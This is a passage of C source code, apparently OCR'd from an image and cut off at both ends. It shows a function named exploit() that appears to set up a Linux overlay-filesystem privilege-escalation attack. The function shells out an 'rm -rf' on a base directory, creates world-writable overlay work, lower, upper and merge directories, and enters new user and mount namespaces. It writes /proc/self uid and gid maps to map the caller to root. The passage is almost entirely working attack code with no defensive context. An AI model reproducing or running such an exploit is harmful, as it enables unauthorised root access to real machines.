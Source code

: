     char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);
